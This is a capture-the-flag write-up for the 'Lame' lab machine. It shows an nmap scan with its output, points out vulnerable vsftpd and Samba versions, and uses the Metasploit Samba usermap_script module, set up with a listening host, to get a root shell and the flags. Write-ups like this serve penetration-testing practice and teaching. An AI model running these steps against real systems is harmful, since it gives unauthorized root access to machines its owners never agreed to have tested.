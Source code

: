 ```yaml
---
title: "Lame"
tags:
  - Easy
  - Linux
  - samba
  - metasploit
---
```


|  | Difficulty |  |  IP Address   |
|:-| :--------: |--|:------------: |
|  |  Easy |  |  10.10.10.3 |

---

### Reconnaissance
Perform **Nmap** scan to enumerate ports:

```shell
sudo nmap -sC -sV -vv -Pn -p- -T4 -o full_nmap 10.10.10.3
```

**Results:**

```
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
...
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

From our **nmap** scan, we see that we are dealing with a **Linux** machine. Ports **21 (FTP)**, **22 (SSH)**, **139 & 445 (SMB)** and **3632 (distccd)** are open.

---
### SMB "username map script" RCE
Looking through the nmap results, I first noticed that the version of **vsftpd** was **2.3.4**, which I knew had a backdoor vulnerability. However, the backdoor was not exploitable in this instance.

My attention then went to SMB, which was running off version **3.0.20**. 

Searching online, I found that this version of SMB had an RCE vulnerability: https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

By specifying a username containing shell meta characters, attackers are able to execute arbitrary commands. Since there already exists a Metasploit exploit for this vulnerability, I used it to gain access into the target machine:

```shell
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST tun0
run
```

This gave me a root shell, which I could then use to obtain user.txt and root.txt!

![screenshot1](../assets/images/Lame/screenshot1.png)

Note that user.txt can be found in the home directory of the user **makis**.